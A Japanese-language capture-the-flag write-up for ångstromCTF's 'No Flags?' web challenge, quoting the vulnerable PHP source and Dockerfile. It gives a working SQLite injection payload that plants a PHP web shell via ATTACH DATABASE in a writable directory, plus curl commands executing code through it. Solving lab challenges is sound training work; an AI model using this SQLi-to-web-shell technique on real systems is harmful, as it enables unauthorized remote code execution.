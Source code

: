 # No Flags?:Web:150pts
After hearing about all of the cheating scandals, clam decided to conduct a sting operation for ångstromCTF. He made [a database of fake flags](https://no-flags.web.actf.co/) to see who submits them. Unbeknownst to him, a spy managed to sneak a real flag into his database. Can you find it?  

[Source](index.php), [Dockerfile](Dockerfile)  

# Solution
URL、ソース、Dockerfileが配布されている。  
アクセスするとデータベースに自作のフラグを投稿できるサイトのようだ。  
No Flags?  
[site.png](site/site.png)  
ソースを見ると主要な部分は以下のようであった。  
```php
~~~
    <?php
        if (!isset($_SESSION["DBNAME"])) {
            $dbname = hash("sha256", (string) rand());
            $_SESSION["DBNAME"] = $dbname;
            $init = true;
        } else {
            $dbname = $_SESSION["DBNAME"];
            $init = false;
        }
        $pdo = new PDO("sqlite:/tmp/$dbname.db");
        if ($init) {
            $pdo->exec("CREATE TABLE Flags (flag string); INSERT INTO Flags VALUES ('actf{not_the_flag}'), ('actf{maybe_the_flag}')");
        }
        if (isset($_POST["flag"])) {
            $flag = $_POST["flag"];
            $pdo->exec("INSERT INTO Flags VALUES ('$flag');");
        }
        foreach ($pdo->query("SELECT * FROM Flags") as $row) {
            echo "<li>" . htmlspecialchars($row["flag"]) . "</li>";
        }
    ?>
~~~
```
自明なSQLiがあり、複文実行できそうだ。  
sqliteが使われていることもわかる。  
次にDockerfileを見ると以下のようであった。  
```dockerfile
FROM php:8.1.5-apache-bullseye

# executable that prints the flag
COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html

RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```
`/printflag`を実行しなければならないようだ。  
SQLi2RCEを狙う。  
SQLiteでは書き込み可能な場所がある場合、任意のコードが実行できることがある。  
今回はDockerfileより、`/var/www/html/abyss`が書き込み可能かつwebよりアクセス可能なようだ。  
次のようなSQLiペイロードを投稿し、webshellを設置する。  
```sql
'); ATTACH DATABASE '/var/www/html/abyss/sato_hack.php' AS sato; CREATE TABLE sato.pwn (dataz text); INSERT INTO sato.pwn (dataz) VALUES ('<?php system($_GET["cmd"]); ?>'); -- satoki
```
設置し終わったら以下のようにコードを実行する。  
```bash
$ curl -s "https://no-flags.web.actf.co/abyss/sato_hack.php?cmd=id" | strings
SQLite format 3
Gtablepwnpwn
CREATE TABLE pwn (dataz text)
Iuid=33(www-data) gid=33(www-data) groups=33(www-data)
$ curl -s "https://no-flags.web.actf.co/abyss/sato_hack.php?cmd=/printflag" | strings
SQLite format 3
Gtablepwnpwn
CREATE TABLE pwn (dataz text)
Iactf{why_do_people_still_use_php}
```
指定された通り`/printflag`を実行するとflagが得られた。  

## actf{why_do_people_still_use_php}